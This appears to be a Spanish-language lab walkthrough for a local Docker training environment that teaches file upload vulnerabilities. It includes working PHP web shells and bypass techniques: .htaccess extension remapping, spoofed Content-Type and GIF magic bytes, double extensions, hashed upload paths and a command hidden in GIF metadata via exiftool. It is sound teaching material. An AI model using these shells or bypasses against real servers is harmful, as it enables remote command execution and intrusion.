








---
# Explotación de laboratorio file upload - Guía paso a paso
---
**Repositorio en GitHub:**  
[https://github.com/moeinfatehi/file_upload_vulnerability_scenarios](https://github.com/moeinfatehi/file_upload_vulnerability_scenarios)

> Este laboratorio simula distintas formas de **file upload vulnerability**, una categoría incluida en el OWASP TOP 10 que permite a un atacante ejecutar código en el servidor al cargar archivos maliciosos.

---

Acción:

```bash
git clone https://github.com/moeinfatehi/file_upload_vulnerability_scenarios
cd file_upload_vulnerability_scenarios 
docker-compose up -d
docker ps
```

Resultado:

```bash
CONTAINER ID   IMAGE                                            COMMAND                  CREATED              STATUS              PORTS                                   NAMES
c55d93fc2408   moeinfatehi/file_upload_vulnerabilities:latest   "docker-php-entrypoi…"   About a minute ago   Up About a minute   0.0.0.0:9001->80/tcp, :::9001->80/tcp   file_upload_vulnerabilities
```

Explicación:  tenemos el laboratorio montado por la ruta `localhost:9001`

**Nota:** añadir las carpetas `uploads` a cada uno de sus respectivos uploads<nº>

```bash
docker exec -it <código de contenedor> bash
ls
cd /var/www/html/uploads<nºx>
mkdir uploads
chown www-data:www-data -R uploads/
```


---
## Subida sin sanitización

Acción:

```bash
nvim command.php
```

Resultado:

```bash
<?php
  system("whoami");
?>
```

Explicación:  al subir este archivo `command.php` aunque el servidor diga que solo acepta `jpeg-gif` si no lo comprueba/sanitiza se sube igualmente y accediendo al endpoint donde se almacena el archivo podemos ver la ejecución de comandos


Acción:

```bash
nvim cmd.php

<?php
  system($_GET['cmd']);
?>
```

Resultado:

```bash
http://localhost:9001/upload1/uploads/cmd.php?cmd=whoami

www-data 
```

Explicación:  ahora con `?cmd=<comando>` podemos controlar la ejecución de comandos desde el navegador

---
## Sanitización del lado del cliente

Acción: en el código fuente podemos ver que el apartado de `onsubmit` llama a una función `validate.js` 



Acción:



Acción:



Explicación:  quitamos el apartado `onsubmit` que es el que aplica la sanitización

---
## Cambio de políticas con `.htaccess`

Acción: cargamos un archivo `.htaccess` y le indicamos que añada que cualquier extensión acabada en `.test` sea interpretada como `php`, además cambiamos el `Content-Type` a `text/plain`

**Nota:** esto solo funcionará si el servidor está usando **Apache** y tiene habilitado `.htaccess` (lo cual **no siempre ocurre** en producción)

```bash
Content-Disposition: form-data; name="fileToUpload"; filename=".htaccess"

Content-Type: text/plain


AddType application/x-httpd-php .test
```






Explicación:  tras cambiar la política de lectura con `.htaccess` podemos subir un archivo que tenga la extensión indicada para ejecutar comandos

**Nota:** podemos probar [diferentes extensiones *php*](https://hacktricks.boitatech.com.br/pentesting-web/file-upload)

Acción: 

```text
PHP**: _.php_, _.php2_, _.php3_, ._php4_, ._php5_, ._php6_, ._php7_, .phps, ._phps_, ._pht_, ._phtm, .phtml_, ._pgif_, _.shtml, .htaccess, .phar, .inc_
```

Explicación:  dependiendo de como este sanitizado el código fuente puede ser que alternativas a la extensión php sean válidas

---
## Sanitización por restricción de tamaño/size

Acción:

```html
<?php system($_GET[0]);?>
```

```html
<?=`$_GET[0]`?>
```

Resultado:

```URL
http://localhost:9001/upload16/uploads/cmd.php?0=whoami 
```

Explicación:  para restricciones según el tamaño (size) podemos acotar nuestro payload

---
## Sanitización por tipo de archivo

Acción:

```html
Content-Disposition: form-data; name="fileToUpload"; filename="cmd.php"

Content-Type: images/gif


GIF8;


<?php
  system($_GET['cmd']);
?>

```

Explicación:  modificamos la cabecera `Content-Type` a `image/gif` y en el payload añadimos al principio los caracteres típicos por los que empieza un archivo *GIF* para poder sortear la restricción que se pueda estar haciendo al leer los *magic numbers* del payload.

**Nota:** si nos salta una ventana emergente al enviar la petición, lo más probable es que se este aplicando una sanitización del lado del cliente, como vimos en el segundo caso, para ello de nuevo en el DevTools quitamos el apartado de `Validation` y continuamos el ejercicio, ya que se pueden concatenar diferentes restricciones

**Nota:** `GIF8;` es un pequeño truco, pero el byte real esperado sería algo como `GIF89a` o `GIF87a`

---

## Sanitización ocultando el directorio de almacenamiento con hash






Acción: 

```bash
echo -n "cdm" | md5sum

echo -n "cdm.php" | md5sum

md5sum cdm.php
```

Resultado:

```bash
http://localhost:9001/upload31/uploads/dfff0a7fa1a55c8c1a4966c19f6da452.php?cmd=whoami 
```

Explicación:  podemos subir el archivo pero desconocemos la ruta, sin embargo tenemos una pista y es que vemos como al aceptar la subida se nos muestra una imagen gif, la cual vemos que esta almacenada no bajo un nombre si no bajo un código *md5sum* ya que vemos que tiene 32 caracteres. Por lo que procedemos a hashear en md5sum el nombre de nuestro archivo subido para ver si realmente se almacena de esta forma. Habría que probar si es el hash de 'cmd', de 'cmd.php' o del propio archivo 'cmd.php'




Acción: para localizar los diferentes hashes que tenemos disponibles en nuestro sistema

```bash
locate \*sum
```

Resultado:

```bash
/usr/bin/md5sum
/usr/bin/sha1sum
/usr/bin/sha224sum
/usr/bin/sha256sum
/usr/bin/sha384sum
/usr/bin/sha512sum
/usr/bin/shasum
```

Acción:

```bash
echo -n "cmd" | sha1sum
echo -n "cmd.php" | sha1sum
sha1sum cmd.php
```

Resultado:

```bash
http://localhost:9001/upload35/uploads/17717d2bf6c721c49d517e7edad96d0750a17a4b.php?cmd=id 
```

Explicación: obviamente puede haber diferentes tipos de hashes, en este caso tiene 40 caracteres por lo es probable que sea *sha1sum*

---
## Fuzzing rutas ocultas

Acción:

```bash
gobuster dir -u http://localhost:9001/upload41/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100
```

Resultado:

```bash
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 323] [--> http://localhost:9001/upload41/images/]
```

Explicación:  otras veces puede estar oculto y necesitamos fuzzearlo con herramientas como *gobuster, wfuzz o ffuf*

---
## Ataque de doble extensión

Acción:

```bash
Content-Disposition: form-data; name="fileToUpload"; filename="cmd.jpg.php"

Content-Type: application/x-php


<?php
  system($_GET['cmd']);
?>
```

Resultado:

```bash
http://localhost:9001/upload51/uploads/cmd.jpg.php?cmd=id 
```

Explicación:  podemos añadir (según este escrito el código) una doble extensión y sortear así la restricción

> Una subida de archivo con doble extensión (`.jpg.php`) y encabezado `Content-Type: image/jpeg` podría evadir tanto controles por nombre como por tipo MIME

---

## Bypass de endpoint de descarga

Acción:

```bash
view-source:http://localhost:9001/upload56/pwned/cmd.php?cmd=id
```

Resultado:

```bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Acción:

```bash
curl -s -X GET "http://localhost:9001/upload56/pwned/cmd.php?cmd=id"

```

Resultado:

```bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Acción:

```bash
curl -s -X GET "http://localhost:9001/upload56/pwned/cmd.php" -G --data-urlencode "cmd=ls -l"
```

Resultado:

```bash
total 4
-rw-r--r-- 1 www-data www-data 33 Jun  9 14:17 cmd.php
```

Explicación:  podemos acudir con `ctrl+u` al código fuente y desde ahí acudir al endpoint de almacenamiento que de normal lo descarga aquí lo podemos visualizar. También podemos verlo desde consola usando [[iCloudDrive/iCloud~md~obsidian/Git/Setting_Github/Comandos/Curl|Curl]]

---
## Ataque metadatos gif

Acción:

```bash
exiftool download.gif
```

Resultado:

```bash
ExifTool Version Number         : 12.57
File Name                       : download.gif
Directory                       : .
File Size                       : 460 kB
File Modification Date/Time     : 2025:06:09 17:55:19+02:00
File Access Date/Time           : 2025:06:09 17:55:19+02:00
File Inode Change Date/Time     : 2025:06:09 17:55:19+02:00
File Permissions                : -rw-r--r--
File Type                       : GIF
File Type Extension             : gif
MIME Type                       : image/gif
GIF Version                     : 89a
Image Width                     : 498
Image Height                    : 373
Has Color Map                   : Yes
Color Resolution Depth          : 8
Bits Per Pixel                  : 8
Background Color                : 0
Animation Iterations            : Infinite
Frame Count                     : 39
Duration                        : 3.90 s
Image Size                      : 498x373
Megapixels                      : 0.186
```

Acción:

```bash
 exiftool -Comment='<?php system("whoami"); ?>' download.gif
```

Resultado:

```bash
1 image files updated
```

Acción:
```bash
exiftool download.gif
```

Resultado:

```bash
ExifTool Version Number         : 12.57
File Name                       : download.gif
Directory                       : .
File Size                       : 460 kB
File Modification Date/Time     : 2025:06:09 17:58:47+02:00
File Access Date/Time           : 2025:06:09 17:58:47+02:00
File Inode Change Date/Time     : 2025:06:09 17:58:47+02:00
File Permissions                : -rw-r--r--
File Type                       : GIF
File Type Extension             : gif
MIME Type                       : image/gif
GIF Version                     : 89a
Image Width                     : 498
Image Height                    : 373
Has Color Map                   : Yes
Color Resolution Depth          : 8
Bits Per Pixel                  : 8
Background Color                : 0
Animation Iterations            : Infinite
Comment                         : <?php system("whoami"); ?>
Frame Count                     : 39
Duration                        : 3.90 s
Image Size                      : 498x373
Megapixels                      : 0.186
```

Explicación:  de este modo añadimos en los metadatos del archivo gif una ejecución de comandos en el apartado añadido `Comment`. Al subir el archivo a un servidor no sanitizado, en el endpoint donde se almacene podríamos ver en algún lugar de toda la información cifrada que muestra nuestra ejecución de comando

---
